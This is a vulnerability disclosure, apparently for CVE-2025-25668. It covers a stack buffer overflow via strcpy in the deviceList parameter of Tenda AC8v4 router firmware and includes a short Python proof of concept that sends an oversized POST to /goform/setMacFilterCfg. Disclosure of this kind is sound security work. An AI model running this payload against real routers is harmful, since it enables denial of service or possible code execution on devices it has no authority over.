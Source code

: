 # CVE-2025-25668

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

AC8v4 V16.03.34.06

## Vulnerability details

In function `sub_47D878` line 8, `src` reads from the caller function `formSetMacFilterCfg` in a user-provided parameter `deviceList`, and the variable is passed to the function `strcpy` in line 28、29 without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.



![img](https://s2.loli.net/2025/02/15/oe1Pi784OTtZ9Rd.png)

## PoC

```python
import requests

 ip = '192.168.2.1'
 headers = {
     'Host': ip,
     'Accept': '*/*',
     'X-Requested-With': 'XMLHttpRequest',
     'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
     'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
     'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
     'Connection': 'close',
 }

 deviceList = '1'*1000 + "\r10:11:11:11:11:22"
 data = 'macFilterType=black&deviceList='+ deviceList


 response = requests.post(
     f'http://{ip}/goform/setMacFilterCfg',
     headers=headers,
     data=data,
     verify=False,
 )
```

![img](https://s2.loli.net/2025/02/15/hNlxySfvFtCAJ9m.png)
